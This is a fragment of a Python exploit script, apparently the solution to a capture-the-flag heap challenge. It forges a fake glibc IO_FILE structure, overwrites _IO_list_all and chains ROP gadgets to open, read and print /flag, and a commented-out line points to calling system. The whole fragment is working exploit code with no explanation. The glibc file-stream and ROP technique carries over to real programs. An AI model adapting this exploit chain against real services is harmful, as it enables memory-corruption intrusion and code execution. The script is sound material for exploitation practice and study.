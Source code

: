 ```python
        0: {
            0: bytes(f1),
            0xE0: {
                0x18: [0],
                0x30: [0],
                0xE0: [fake_IO_FILE + 0x200],
            },
            # 0x200: {0x68: [libc_base + libc.sym.system]},
            0x200: {0x68: [magic_gadget]},
        },
        0x520: {
            0: [0x520, 0x520, 0, 0x1000003E7],
            0x100: {
                0: [0xDEADBEEF, add_rsp_0x38_ret],
                0x18: [fake_IO_FILE + 0x520 + 0x100],
                0x28: [leave_ret],
                0x38: [
                    pop_rdi_ret,
                    fake_IO_FILE + 0xA48 + 0x200,
                    pop_rdi_ret,
                    fake_IO_FILE + 0xA48 + 0x200,
                    pop_rsi_ret,
                    0,
                    libc_base + libc.sym.open,
                    pop_rdi_ret,
                    3,
                    pop_rsi_ret,
                    fake_IO_FILE + 0xA48 + 0x100,
                    pop_rdx_2_ret,
                    0x100,
                    0,
                    libc_base + libc.sym.read,
                    pop_rdi_ret,
                    1,
                    libc_base + libc.sym.write,
                ],
            },
        },
        0xA48: {
            0: [
                0x531,
                libc_base + 0x21B110,
                libc_base + 0x21B110,
                heap_base + 0x3DD0,
                libc_base + libc.sym._IO_list_all - 0x20,
            ],
            0x200: b"/flag\x00",
        },
    }
)
s(payload)

add(b"plane", b"guangzhou", b"guangzhou", 999, b"d")
cmd(9)

ia()

# 88423600807024982120743331231397
```

---